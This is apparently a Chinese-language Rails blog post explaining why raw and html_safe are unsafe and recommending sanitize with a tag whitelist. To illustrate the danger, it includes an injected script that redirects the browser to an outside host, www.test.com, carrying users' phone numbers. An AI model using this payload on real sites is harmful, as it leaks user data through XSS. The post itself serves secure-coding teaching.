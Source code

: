 ```yaml
---
layout: post
title:  "rails中的 raw, html_safe, sanitize"
date:   2018-09-04 18:10:22 +0800
categories: blank update
---
```

避免使用`raw`和`html_safe`, 安全使用`sanitize`
- ### raw
例如：
{% highlight ruby %}
<%= raw "<script type=\"text/javascript\">window.location.href='http://www.test.com?a=#{User.limit(10).map(&:phone).join(',')}';</script>" %>
{% endhighlight %}
结果：
执行 `script`中的内容，并且查询`User`数据发送给`www.test.com`,如果`www.test.com`是自己的服务器，我们可以在服务器中截取`User`用户数据，比如`cookie`

我们可以看`raw`的源代码，其实就是用`html_safe`实现的
{% highlight ruby %}
def raw(stringish)
  stringish.to_s.html_safe
end
{% endhighlight %}

- ### html_safe

`html_safe`是完全把你的`html`内容原本原样的输出，这种事非常不安全的，把`script`标签的内容输出并执行结果，比如会造成XSS攻击
和`raw`一样，同上

- ### sanitize

`sanitize`的源代码中：
{% highlight ruby %}
self.allowed_tags = Set.new(%w(strong em b i p code pre tt samp kbd var sub
  sup dfn cite big small address hr br div span h1 h2 h3 h4 h5 h6 ul ol li dl dt dd abbr
  acronym a img blockquote del ins))
self.allowed_attributes = Set.new(%w(href src width height alt cite datetime title class name xml:lang abbr))
{% endhighlight %}

我们可以看到，`sanitize`是有默认的白名单，把一些危险的标签给去除掉，相对`html_safe`安全很多
也可以自己设置白名单
在`config/appliction.rb`中设置：
{% highlight ruby %}
class Application < Rails::Application
 config.action_view.sanitized_allowed_tags = ['table', 'tr', 'td'] #安全的标签
 config.action_view.sanitized_allowed_attributes = ['id', 'class', 'style'] #安全的属性
end
{% endhighlight %}

例如：
{% highlight ruby %}
<%= sanitize "<script type=\"text/javascript\">window.location.href='http://www.test.com?a=#{User.limit(10).map(&:phone).join(',')}';</script>" %>
{% endhighlight %}
结果：
{% highlight ruby %}
window.location.href='http://www.test.com?a=***';
{% endhighlight %}

并不会执行`script`,而是把不是白名单的标签内容输出

不管怎么样，使用`sanitize`就好了，如果有需求也可以自行配置`sanitize`的白名单，比较安全可靠
